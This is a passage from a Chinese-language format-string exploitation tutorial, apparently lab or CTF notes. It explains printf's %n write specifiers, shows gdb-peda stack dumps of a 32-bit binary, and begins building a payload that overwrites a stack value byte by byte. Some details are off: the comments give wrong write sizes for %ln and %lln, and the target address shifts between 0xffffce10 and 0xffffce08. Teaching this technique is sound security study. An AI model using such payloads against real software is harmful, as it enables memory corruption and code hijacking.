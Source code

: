 ```
char c;
short s;
int i;
long l;
long long ll;
printf("%s %hhn\n", str, &c);       // 写入单字节
printf("%s %hn\n", str, &s);        // 写入双字节
printf("%s %n\n", str, &i);         // 写入4字节
printf("%s %ln\n", str, &l);        // 写入8字节
printf("%s %lln\n", str, &ll);      // 写入16字节
```

尝试写入 `0x12345678` 到地址 `0xffffce10`，即覆盖ABCD字符

第一步：首先输入AAAABBBBCCCCDDDD

```
[------------------------------------stack-------------------------------------]
0000| 0xffffcdfc --> 0x8048517 (<main+124>:	add    esp,0x20)
0004| 0xffffce00 --> 0xffffce34 ("AAAABBBBCCCCDDDD")
0008| 0xffffce04 --> 0x1 
0012| 0xffffce08 --> 0x88888888 
0016| 0xffffce0c --> 0xffffffff 
0020| 0xffffce10 --> 0xffffce2a ("ABCD")
0024| 0xffffce14 --> 0xffffce34 ("AAAABBBBCCCCDDDD")
0028| 0xffffce18 --> 0x80481fc --> 0x38 ('8')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0xf7e50030 in printf () from /lib32/libc.so.6
gdb-peda$ x /20x $esp
0xffffcdfc:	0x08048517	0xffffce34	0x00000001	0x88888888
0xffffce0c:	0xffffffff	0xffffce2a	0xffffce34	0x080481fc
0xffffce1c:	0xffffce88	0xf7ffda74	0x00000001	0x42413490
0xffffce2c:	0x00004443	0x00000000	0x41414141	0x42424242
0xffffce3c:	0x43434343	0x44444444	0x00000000	0x000000c2
gdb-peda$ x /4wb 0xffffce08
0xffffce08:	0x88	0x88	0x88	0x88
```

第二步：构造payload

想要逐字节覆盖，就需要 4 个用于跳转的地址，4 个写入地址和 4 个值，对应关系如下（小端序）：

```
0xffffce34:0x41414141替换成0xffffce08存放0x78      第13个参数
0xffffce38:0x42424242替换成0xffffce09存放0x56      第14个参数
0xffffce3c:0x43434343替换成0xffffce0a存放0x34      第15个参数
0xffffce40:0x44444444替换成0xffffce0b存放0x12      第16个参数
```

现在payload暂时为：

```
"\x08\xce\xff\xff"+"\x09\xce\xff\xff"+"\x0a\xce\xff\xff"+"\x0b\xce\xff\xff"
```
